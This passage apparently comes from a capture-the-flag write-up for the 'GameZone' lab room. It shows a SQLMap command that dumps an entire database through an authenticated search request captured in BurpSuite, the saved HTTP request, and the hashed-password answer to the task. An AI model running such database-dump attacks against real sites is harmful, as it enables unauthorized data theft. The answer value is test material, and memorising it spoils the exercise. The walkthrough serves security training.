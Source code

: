 > <bold>3.1.</bold> &nbsp;&nbsp;&nbsp; <em>We're going to use SQLMap to dump the entire database for GameZone.</em><br><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <em>Using the page we logged into earlier, we're going point SQLMap to the game review search feature.</em><br><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <em>First we need to intercept a request made to the search feature using BurpSuite.</em><br>
>
> <p align="left" hspace="100" > <img width="600px" src="https://github.com/user-attachments/assets/53030686-04c0-45c6-a62e-fba81be391df"> </p>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <em>Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.</em><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <code>sqlmap -r request.txt --dbms=mysql --dump</code><br><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <code>-r</code> uses the intercepted request you saved earlier<br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <code>--dbms</code> tells SQLMap what type of database management system it is<br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <code>--dump</code> attempts to outputs the entire database<br><br>
>
> <p align="left" hspace="100" > <img width="600px" src="https://github.com/user-attachments/assets/6d209c77-f866-4d05-947b-f24a9b3eedcd"> </p>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <em>SQLMap will now try different methods and identify the one thats vulnerable.</em><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <em>Eventually, it will output the database.</em><br><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <em>In the users table, what is the hashed password?</em> <a id='3.1'></a><br>
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <code>ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14</code>


<p align="center"> <img width="750px" src="https://github.com/user-attachments/assets/10630c46-8f13-4ed4-88b5-a1d8cc4f7864"> </p>

<p>I saved what was intercep in <code>request.txt</code></p>

<pre><code>GET /portal.php HTTP/1.1
Host: gamezone.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=khjmhnig4a5oq8qvp4prn7k5d5
Upgrade-Insecure-Requests: 1
</code></pre>

<br>

<p align="center"> <img width="750px" src="https://github.com/user-attachments/assets/e2c26878-0c7c-47ac-9a2c-692263cc99df"> </p>

<br>

<p align="center"> <img width="750px" src="https://github.com/user-attachments/assets/688a6146-75f5-4ef0-a21c-9343d1d2afca"> </p>
